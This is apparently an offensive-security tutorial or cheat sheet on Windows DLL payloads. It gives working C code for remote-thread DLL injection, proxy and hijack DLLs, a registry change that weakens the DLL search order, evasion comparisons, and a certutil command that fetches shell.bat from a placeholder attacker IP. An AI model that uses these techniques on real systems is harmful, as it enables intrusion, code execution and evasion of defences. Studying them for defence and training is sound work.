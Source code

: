# DLL-Based Payloads
## Overview

DLL-based payloads are used in Windows environments to inject malicious behavior into trusted processes, either for code execution, evasion, or privilege escalation. The techniques vary in complexity and detection resistance, ranging from simple API abuse to advanced memory manipulation.
## 1. DLL Injection

### LoadLibrary Injection

Uses Windows API to load a DLL into another process.

Key API calls:

- `OpenProcess()`
- `VirtualAllocEx()`    
- `WriteProcessMemory()`
- `GetProcAddress()`
- `CreateRemoteThread()`

```c
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
LPVOID alloc = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, alloc, dllPath, strlen(dllPath), NULL);
LPVOID loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLib, alloc, 0, NULL);
```

Use cases:

- Simple, effective injection    
- Easily detected by AV/EDR
### Manual Mapping

Manually parses and maps a DLL into memory without using `LoadLibrary`, thus avoiding standard Windows loader mechanisms.

Steps:

- Load raw DLL into injector memory
- Allocate memory in target process
- Manually map sections, resolve relocations/imports
- Transfer control to DllMain

Pros:  
Bypasses API hooks and common detection heuristics  
Cons:  
Complex and error-prone
### Reflective DLL Injection

Technique where the DLL loads itself using minimal dependencies. Commonly used in frameworks like Metasploit, Cobalt Strike, etc.

Key Concept:  
DLL contains its own loader function (`ReflectiveLoader`) which:

- Resolves own base address    
- Resolves imports manually (LoadLibrary, GetProcAddress, etc.)
- Allocates memory and relocates itself
- Calls its own `DllMain`

Reference: Stephen Fewer's ReflectiveLoader technique
## 2. DLL Hijacking

###  Safe DLL Search Order Abuse

Windows searches for DLLs in a specific order. If an application calls `LoadLibrary("xyz.dll")` without full path, attacker can plant a malicious `xyz.dll` earlier in the search path.

Search Order (Safe DLL Search Mode ON):

1. App directory    
2. System32
3. Windows directory
4. Current directory
5. PATH directories

Registry Tweak (to disable Safe DLL Search Mode):

```
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager]
"SafeDllSearchMode"=dword:00000000
```
###  Practical Example

C program loading `library.dll` via `LoadLibrary()`:

```c
HMODULE hLibrary = LoadLibrary("library.dll");
AddFunc add = (AddFunc)GetProcAddress(hLibrary, "Add");
```

Use Procmon to observe DLL loading:

- Filter: `Process Name is main.exe`    
- Operation: `Load Image`
- Status: `NAME NOT FOUND` for missing DLLs

Place malicious `library.dll` in same dir → automatic hijack.
###  DLL Proxying

- Create a fake DLL with same function name
- Internally load original DLL (`library.o.dll`)   
- Call real function, modify return value, return back to app

```c
typedef int (*AddFunc)(int, int);
DLL_EXPORT int Add(int a, int b) {
    HMODULE lib = LoadLibraryA("library.o.dll");
    AddFunc f = (AddFunc)GetProcAddress(lib, "Add");
    return f(a, b) + 1; // tampered
}
```

Compile → Rename:

- Original `library.dll` → `library.o.dll`
- Malicious `tamper.dll` → `library.dll`
### Missing DLL Injection

If the target app searches for a DLL that doesn’t exist, attacker can place any DLL with that name.

Observed in Procmon:

```
CreateFile C:\...\x.dll NAME NOT FOUND
```

Craft a DLL with `DllMain()`:

```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        MessageBox(NULL, "Hijacked!", "DLL", MB_OK);
    }
    return TRUE;
}
```

Compile → Name it `x.dll` → Place in same directory as binary → Execution triggered on run.
## Summary Table

|Technique|Detection Risk|Complexity|Notes|
|---|---|---|---|
|LoadLibrary Injection|High|Low|Basic API, easily flagged|
|Manual Mapping|Low|High|AV evasion, manual effort|
|Reflective Injection|Low|Medium|Self-contained, common in C2s|
|DLL Hijacking|Medium|Low|Effective against unsigned apps|
|DLL Proxying|Medium|Medium|Used to modify function results|
|Missing DLL Attack|Medium|Low|No signature checking possible|
### Living Off The Land Binaries and Scripts (LOLBAS)

The LOLBAS project maintains a database of Microsoft-signed binaries and scripts that can be abused by attackers for privilege escalation, persistence, evasion, and more. These tools are often already present on the system and therefore trusted and less likely to trigger alerts.

**Common abuses include:**

- Code execution
    
- File transfers
    
- DLL hijacking
    
- UAC bypass
    
- Credential dumping
    
- Keylogging
    

---

### File Transfer using Certutil

`certutil.exe` can be used to download or encode/decode files as part of post-exploitation or evasion.

**Download a file:**

```
certutil.exe -urlcache -split -f http://<attacker-ip>/shell.bat shell.bat
```

**Base64 encode a file:**

```
certutil -encode file1 encodedfile
```

**Base64 decode a file:**

```
certutil -decode encodedfile file2
```